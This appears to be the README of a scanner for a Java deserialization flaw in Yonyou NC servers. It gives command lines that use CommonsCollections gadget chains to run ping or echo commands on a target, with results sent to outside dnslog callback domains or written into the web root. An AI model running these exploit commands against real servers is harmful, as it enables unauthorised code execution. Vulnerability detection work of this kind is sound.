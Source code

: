 ## 注意事项

linux环境未测试，使用写入文本模式（执行命令方法）可能会产生BUG导致检测失败。

dnslog域名最大支持27个字符，程序自动增加 6个字符(5字符子域名加 `.`点号分隔)，最终全长33个字符,不够在前缀补位

```
xxxxx01.03d30ba4.ipv6.1433.eu.org
11101.36c1f3f7.ipv6.bypass.eu.org
xxxxxxxxxxxxxx01.rggehd.dnslog.cn
c6xxxxxxxxxxxxxx01.qpnn6a.ceye.io
```
## dnslog格式说明  
### 检测单个url 

`-u http://url` 

dnslog处理格式
<img width="703" alt="image-20230519162917413" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/7f4c885b-a0f1-4eb6-98be-26fd7b9c2fa6">


### 批量url：

`-f 1.txt #补位变为行数标识`

<img width="674" alt="image-20230519162813383" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/44c0ccbd-14d3-4a9a-af05-d6e4ec71f431">

## 使用详解

### 1.dnslog-URLDNS
1.使用urldns链 ，通过dnslog出网测试。

`python3 YonyouNcScan2.py -u http://172.16.1.200:8000 -d qpnn6a.ceye.io --exp urldns`

<img width="966" alt="image-20230519155021950" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/5cbe9d9b-5cae-4715-b5ab-ec0ca92f1fd5">

<img width="756" alt="image-20230519155038819" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/8c1c8650-99aa-44af-abd5-5fc63cd10db5">

### 2.dnslog-ping
使用cc6链，执行ping命令 通过dnslog回显

需要指定系统，-e dnswin或 dnslin

`python3 YonyouNcScan2.py -u http://172.16.1.200:8000 -d m4ssvh.dnslog.cn -e dnswin`

<img width="940" alt="image-20230519155210357" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/e3009fcd-b929-4381-9632-48019b160fd7">

### 3.txt文本
使用cc6链，执行echo命令 通过重定向符追加到文本至web根目录回显

需要指定系统，-e txtwin或 txtlin；txtwin2使用了cc1链
